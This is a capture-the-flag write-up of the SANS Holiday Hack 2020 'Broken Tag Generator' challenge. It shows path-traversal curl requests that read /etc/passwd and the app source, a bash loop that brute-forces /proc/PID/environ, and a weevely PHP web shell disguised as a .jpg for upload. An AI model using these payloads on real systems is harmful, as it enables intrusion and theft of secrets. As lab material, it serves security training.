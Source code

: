 # Objective 8 – Broken Tag Generator #

## OBJECTIVE: ##
>Help Noel Boetie fix the Tag Generator in the Wrapping Room. What value is in the environment variable `GREETZ`? Talk to Holly Evergreen in the kitchen for help with this.
#  

## HINTS ##
<details>
  <summary>Hints provided for Objective 8</summary>
 
>-	**HOLLY EVERGREEN:** If you find a way to execute code blindly, I bet you can redirect to a file then download that file!
>-	**HOLLY EVERGREEN:** We might be able to find the problem if we can get source code!
>-	**HOLLY EVERGREEN:** Once you know the path to the file, we need a way to download it!
>-	**HOLLY EVERGREEN:** Can you figure out the path to the script? It's probably on error pages!
>-	**HOLLY EVERGREEN:** If you're having trouble seeing the code, watch out for the Content-Type! Your browser might be trying to help (badly)!
>-	**HOLLY EVERGREEN:** Is there an endpoint that will print arbitrary files?
>-	**HOLLY EVERGREEN:** I'm sure there's a vulnerability in the source somewhere... surely Jack wouldn't leave their mark?
>-	**HOLLY EVERGREEN:** Remember, the processing happens in the background so you might need to wait a bit after exploiting but before grabbing the output!


</details>

#  
## PROCEDURE: ##
Holly Evergreen and Noel Boetie both seem to think the problem is related to the **file upload** feature of the tag generator – so let’s start by looking at that.

If we upload an image and look at the network events in the Firefox console, we see that the image file is renamed and is stored at a URI that looks similar to ``https://tag-generator.kringlecastle.com/image?id=f3870e1f-7f10-49c1-a84f-1a11c7ed71b1.jpg``  This looks like it might be vulnerable to LFI?

Sure enough – it is! I try ``# curl https://tag-generator.kringlecastle.com/image?id=../../../../../../../../etc/passwd`` and I have the contents of the `passwd` file – that must be a step in the right direction 😊
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2020/assets/60655500/5bba3621-6c27-4ea4-bbdc-69da90a9d15a)

If I try to upload a script file (eg. php) to the tag generator I get an error message:
```
Error in /app/lib/app.rb: Unsupported file type: /tmp/RackMultipart20201231-1-1m1x12e.php 
```

So this tells me that the uploaded files are being processed by a Ruby application called `app.rb` stored in the `/app/lib` sub-directory
Ok... so let’s try to curl into the script:
```
curl https://tag-generator.kringlecastle.com/image?id=../../../../../../../../app/lib/app.rb
```
We now have accss to the script’s code!

Looking at the code it looks like it’s actually intended to support uploading and extracting zip files so maybe we can upload a payload as zip?  It also looks like the script looks for a file with a .jpg, .jpeg or .png extension once it is uncompressed.

For some reason the check for invalid characters in the filename is commented out – this is probably a hint.
I also note that extracted files are being saved to `#{ TMP_FOLDER }/#{ entry.name }` from the declarations at the start of the Ruby script I can also tell that the `TMP_FOLDER` is referring to the `/tmp/ direcotry`.

Google tells us that Ruby environment variables are stored in `/proc/PID/environ` – but how do I find out the PID?  I’m sure there’s a smart way to go about this but I decided to bruteforce it usign a quick bash script
```
#!/bin/bash
for ((i=0; i<=32768; i++))
do
  echo $i
  curl https://tag-generator.kringlecastle.com/image?id=../../../../proc/$i/environ
done
```

I ran the script and piped the output tot a text file and left for a five hour long New Year’s Day lunch
```
./tagscript.sh >> tagoutput.txt
```

On my return I looked at the contents of `tagoutput.txt` and realise that I hit a match with the 7th try and that PIDs `7` to `26` all gave valid outputs  (so maybe brute force was the right way to go in this case after all).
```
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=cbf2810b7573RUBY_MAJOR=2.7RUBY_VERSION=2.7.0RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343GEM_HOME=/usr/local/bundleBUNDLE_SILENCE_ROOT_WARNING=1BUNDLE_APP_CONFIG=/usr/local/bundleAPP_HOME=/appPORT=4141HOST=0.0.0.0GREETZ=JackFrostWasHereHOME=/home/app8
```
And there it is – plain as day:  **`GREETZ=JackFrostWasHere`**

### Note ###
I have a hunch that this webapp can also be compromised by remote code execution (RCE).  So I create a payload in `weevely` ending with a .jpg extension:
```
weevely generate pwnage /root/uploadmeplease.jpg
```
I compress this ‘.jpg’ as a zip file and upload it to the tag generator.

Now I should be able to find `uploadmeplease.jpg` in the `/tmp/` directory.  And sure enough, running ``curl https://tag-generator.kringlecastle.com/image?id=../tmp/uploadmeplease.jpg`` shows me the php script – muahahaha.

Although I thought it would be plain sailing from here on out, unfortunately I got stuck – although `curl` requests show me the contents of the php script, normal https requests in a browsers return a 404 error and so does trying to establish a weevely session.

I must be missing something really simple here.
